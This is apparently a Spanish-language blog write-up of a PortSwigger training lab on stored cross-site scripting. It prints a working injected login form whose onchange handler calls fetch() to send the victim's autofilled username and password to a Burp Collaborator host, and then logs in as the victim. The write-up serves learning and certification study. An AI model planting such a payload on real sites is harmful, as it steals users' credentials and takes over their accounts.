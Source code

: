 ```yaml
---
title: XSS Lab 23
date: 2025-01-18 12:25:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - XSS
tags:
  - XSS
  - Exploiting cross-site scripting to capture passwords
image:
  path: /assets/img/XSS-Lab-23/Portswigger.png
---
```


## Skills

- Exploiting cross-site scripting to capture passwords
## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `vulnerabilidad` de `stored XSS` en la función de `comentarios del blog`. Un usuario `víctima` simulado ve todos los `comentarios` después de que se publiquen. Para `resolver` el laboratorio, debemos `explotar` la `vulnerabilidad` para `exfiltrar` el `nombre de usuario` y la `contraseña` de la víctima, luego usar estas `credenciales` para `iniciar sesión` en la cuenta de la víctima

---
## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XSS-Lab-23/image_1.png)

Si pulsamos sobre `View post` vemos que tenemos una `sección` en la que podemos hacer `comentarios`

![](/assets/img/XSS-Lab-23/image_2.png)

Al hacer un `comentario` nos mete el `input` en unas `etiquetas <p></p>`

![](/assets/img/XSS-Lab-23/image_3.png)

Sin embargo, si intentamos `inyectar` algo entre `etiquetas <h1></h1>` vemos que nos `inyecta` las `etiquetas` con su `contenido` y deja las `<p></p>` vacías

![](/assets/img/XSS-Lab-23/image_4.png)

Si nos `abrimos` el `inspector` de `Chrome` y le echamos un vistazo a las `cookies` vemos que tienen las `flags (HttpOnly y Secure)`. `HttpOnly` nos `impide acceder a la cookie a través de JavaScript` y `Secure nos obliga a que la cookie solo se transmita a través de conexiones seguras HTTPS`

![](/assets/img/XSS-Lab-23/image_5.png)

Debido a que podemos `inyectar código HTML` podemos `crear` un `formulario` y `aprovechar` el `autocompletado` del `navegador` para `obtener` las `credenciales`. En esta web [https://developer.mozilla.org/en-US/docs/Web/HTML/Attributes/autocomplete](https://developer.mozilla.org/en-US/docs/Web/HTML/Attributes/autocomplete) nos `detalla` como podemos usar el `atributo autocomplete` y los `requerimientos necesarios` para que se `ejecute correctamente`. El `atributo autocomplete` a parte de `on` y `off` tiene varios valores interesante los cuales se pueden ver accediendo a la web mencionada anteriormente, entre estos valores están `username`, `nickname`, `new-password`, `current-password` y `email` entre otros. He creado este `formulario` se aprovecha del `autocompletado` del `navegador` para `obtener` las `credenciales` del `usuario administrador`

```
<form action="#" method="post">
  <input type="text" id="loginUsername" name="username" autocomplete="on" placeholder="Introduce tu nombre de usuario" required>
  <input type="password" id="loginPassword" name="password" autocomplete="on" placeholder="Introduce tu contraseña" required onchange="
    if(this.value.length) {
      fetch('https://7t1e3i5rp0jhqj79js8c833qchi8aw0kp.oastify.com', {
        method: 'POST',
        mode: 'no-cors',
        body: loginUsername.value + ':' + this.value
      });
    }
  ">
  <button type="submit">Enviar</button>
</form>
```

Una vez `publicado` este `comentario` nos vamos a `Burpsuite Collaborator` y `obtenemos` el `nombre` de `usuario` y la `contraseña` de los `usuarios`

![](/assets/img/XSS-Lab-23/image_6.png)

Pulsamos sobre `My account` y nos `logueamos` con las `credenciales`

![](/assets/img/XSS-Lab-23/image_7.png)
